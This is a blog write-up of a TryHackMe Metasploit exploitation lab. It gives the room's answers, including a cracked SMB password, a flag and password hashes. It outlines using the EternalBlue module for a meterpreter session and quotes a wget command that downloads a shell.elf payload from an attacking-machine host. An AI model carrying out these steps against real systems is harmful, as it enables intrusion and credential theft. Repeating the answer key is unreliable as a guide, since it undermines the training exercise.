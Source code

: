 ```yaml
---
title: "Exploitation Basics: Metasploit: Exploitation (TryHackMe)"
datePublished: Wed Oct 30 2024 17:07:52 GMT+0000 (Coordinated Universal Time)
cuid: cm2w4r1pb000009l10kc0dm44
slug: exploitation-basics-metasploit-exploitation-tryhackme
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1730275933195/bfd40f3c-5037-4446-b612-ce173cbc2830.png
tags: exploit, tryhackme, metasploit, write-up

---
```


In this article, I will write a write-up for Metasploit: Exploitation that covers the Scanning, The Metasploit Database, Vulnerability Scanning, Exploitation, and Msfvenom.

I would be lying if I said going through this room was easy. I had to research some resources i.e. this [Medium Blog](https://medium.com/@jiteshofficial2004/tryhackme-metasploit-exploitation-easy-walkthrough-48d6db20cfbf) adds more step-by-step commands to run and this [YouTube channel](https://youtu.be/wJ7otbQrrtQ?si=G7P_EsOgGH1y8OHy) walks through the entire room including the discussions to help me understand how to get through different questions to get the right answer. I think Metasploit is interesting but this room might not be beginner-friendly, I hope I'll learn better using different resources with time.

1. How many ports are open on the target system? `5`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730276296743/fcc1d682-ab99-4c52-939f-a5a3758cb88a.png align="center")
    
2. Using the relevant scanner, what NetBIOS name can you see? `ACME IT SUPPORT`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730297805273/1d0d9c52-3e9e-4b39-ac99-5af29d860c7f.png align="center")
    
3. What is running on port 8000? `webfs/1.21`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730297886757/f47f1c6a-6e30-48ac-a677-8ed4c50e16fe.png align="center")
    
4. What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. `leo1234`
    
5. Who wrote the module that allows us to check SMTP servers for open relay? `Campbell Murray`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730307917603/c42d94c4-b49a-4b69-be63-348d02d46782.png align="center")
    

Deploy the target machine and answer the questions below:

6\. Exploit one of the critical vulnerabilities on the target VM

7\. What is the content of the flag.txt file? `THM-5455554845`

Follow the hint in question 6 that talks of `MS17-010` module. Check into the `msfconsole` then search this module then use 0 since it has `eternalblue` then set `LHOST` and `RHOST` then run exploit command this will open the `meterpreter` and we can now `search -f flag.txt`. It will show it’s path then you use `cat` to check the contents of the file (`flag.txt`)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299168209/bd8f128e-e69b-4c33-a3d3-5548044cf346.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299139460/32896571-f337-4320-b14e-17805fd45d32.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299001674/ee46051b-c8f4-4f82-8eb0-c62b93b7beb1.png align="center")

8\. What is the NTLM hash of the password of the user "pirate"? `8ce9a3ebd1647fcc5e04025019f4b875`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730307652606/9e063365-e25c-47b9-a283-859e03e8a7d7.png align="center")

9. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).
    
10. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING\_MACHINE\_IP:9000/shell.elf to download it to the target machine).
    
11. Get a meterpreter session on the target machine.
    
12. Use a post-exploitation module to dump hashes of other users on the system.
    
13. What is the other user's password hash? `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`
    

Thank you for reading my article. Please leave any questions or comments on improving my learning journey and the THM challenges. We can also connect more on [**LinkedIn**](https://www.linkedin.com/in/sharon-jebitok) or [**X**](https://x.com/SharonJebitok)**.**